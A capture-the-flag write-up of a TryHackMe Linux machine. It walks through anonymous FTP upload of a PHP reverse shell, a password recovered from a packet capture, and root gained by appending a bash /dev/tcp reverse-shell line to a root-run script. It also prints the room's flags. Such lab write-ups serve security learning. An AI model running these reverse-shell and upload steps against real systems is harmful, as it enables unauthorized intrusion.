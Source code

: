 #CTF 

_**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!_

## Recon

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.100.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I found this with gobuster
```
/files                (Status: 301) [Size: 308] [--> http://10.10.56.6/files/]          
```

I navigated to this subdirectory and found a ftp folder with nothing in it, an important.jpg photo with an amongus meme  and a notice txt :
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

Exiftool on the image:
```
ExifTool Version Number         : 12.63
File Name                       : important.png
Directory                       : .
File Size                       : 252 kB
File Modification Date/Time     : 2023:07:27 07:59:20-04:00
File Access Date/Time           : 2023:07:27 07:59:19-04:00
File Inode Change Date/Time     : 2023:07:27 07:59:20-04:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 735
Image Height                    : 458
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8 8
Image Size                      : 735x458
Megapixels                      : 0.337
```

Tried to run stegseek on it but it doesnt support pngs.
I would love to upload a reverse shell on the ftp and I see that I can login as anonymous.

## Access

When I face this:
`229 Entering Extended Passive Mode (|||15928|)`
I type `passive` and that turns it off.

I upload a reverse shell with
`put /home/kali/php-reverse-shell.php reverse.php`

and then navigate to it on the browser.
I open a Netcat connection and I click the shell and I am in!

I find a recipe.txt file
```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

I find an interesting folder /incidents containing suspicious.pcapng
I open a server with python3 -m http.server 8080 and then on my terminal I 
wget the file I want. Its a pcapng file so I open it with Wireshark.

I take a look on the file and I see the commands the intruder used. Around 85 packet things get interested

```
0000   00 00 03 04 00 06 00 00 00 00 00 00 7d df 08 00   ............}...
0010   45 00 00 62 02 68 40 00 40 06 89 c7 c0 a8 16 8b   E..b.h@.@.......
0020   c0 a8 16 8b 11 5c 9f e6 bf 7f c7 84 2f 35 b0 36   .....\....../5.6
0030   80 18 00 40 ae bb 00 00 01 01 08 0a 2a f3 87 ed   ...@........*...
0040   2a f3 59 fe 70 79 74 68 6f 6e 20 2d 63 20 22 69   *.Y.python -c "i
0050   6d 70 6f 72 74 20 70 74 79 3b 70 74 79 2e 73 70   mport pty;pty.sp
0060   61 77 6e 28 27 2f 62 69 6e 2f 62 61 73 68 27 29   awn('/bin/bash')
0070   22 0a                                             ".
```

I see that he tries to spawn a stable shell.
At 152 they try to cd to lennie and they cant.
At 175
```
0000   00 00 03 04 00 06 00 00 00 00 00 00 00 00 08 00   ................
0010   45 00 00 52 25 08 40 00 40 06 67 37 c0 a8 16 8b   E..R%.@.@.g7....
0020   c0 a8 16 8b 9f e6 11 5c 2f 35 b2 5e bf 7f c7 df   .......\/5.^....
0030   80 18 00 40 ae ab 00 00 01 01 08 0a 2a f4 40 09   ...@........*.@.
0040   2a f4 3f fb 5b 73 75 64 6f 5d 20 70 61 73 73 77   *.?.[sudo] passw
0050   6f 72 64 20 66 6f 72 20 77 77 77 2d 64 61 74 61   ord for www-data
0060   3a 20                                             : 
```

And they get
```
0000   00 00 03 04 00 06 00 00 00 00 00 00 04 06 08 00   ................
0010   45 00 00 47 02 7f 40 00 40 06 89 cb c0 a8 16 8b   E..G..@.@.......
0020   c0 a8 16 8b 11 5c 9f e6 bf 7f c7 df 2f 35 b2 7c   .....\....../5.|
0030   80 18 00 40 ae a0 00 00 01 01 08 0a 2a f4 4a 0e   ...@........*.J.
0040   2a f4 40 09 63 34 6e 74 67 33 74 33 6e 30 75 67   *.@.c4ntg3t3n0ug
0050   68 73 70 31 63 33 0a                              hsp1c3.
```

So I have the password for lennie: c4ntg3t3n0ughsp1c3
And I am in! `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

## Priv Esc

I try to run sudo -l but I get: Sorry, user lennie may not run sudo on startup.

There are two more folders here, Documents and scripts
Documents contain:
concern.txt
```
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
```

list.txt
```
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
```

and note.txt
```
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

On scripts folder there are two more files:
planner.sh 
```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

and startup_list.txt which is empty.

I asked gpt what the code above does and this is what I got

```
This code is a Bash script that performs the following actions:

1. `#!/bin/bash`: This line is called a shebang and indicates that the script should be interpreted and executed using the Bash shell.

2. `echo $LIST > /home/lennie/scripts/startup_list.txt`: This line takes the value stored in the variable `LIST` and writes it to a file called `startup_list.txt` located in the `/home/lennie/scripts/` directory. The `>` symbol is used for output redirection, which means it will create or overwrite the file if it already exists.

3. `/etc/print.sh`: This line executes the script located at `/etc/print.sh`.  

However, there is one potential issue with the code. The variable `$LIST` is used without being defined or assigned a value within the script. If `$LIST` has not been defined or set before this line, it will be treated as an empty variable, and the `startup_list.txt` file will contain no content.

To better understand the purpose and functionality of the script, we would need to know the contents of the `/etc/print.sh` script and how the `$LIST` variable is supposed to be populated before running this script.
```

I try to run the script but I get this
```
./planner.sh: line 2: /home/lennie/scripts/startup_list.txt: Permission denied
Done!
```
and the startup_list.txt is still empty

Next I navigate to /etc/print.sh
```
#!/bin/bash
echo "Done!"
```

I am a little a bit stuck here. I search online and I find that planner.sh, owned by lennie is calls print.sh , owned by root. So if I change the code on print I can call a reverse-shell
`echo " /bin/bash -i >& /dev/tcp/[local ip]/3456 0>&1" >> /etc/print.sh`

I open a nc connection to 3456 and I wait for the connection, and after a bit I am root !
`THM{f963aaa6a430f210222158ae15c3d76d}`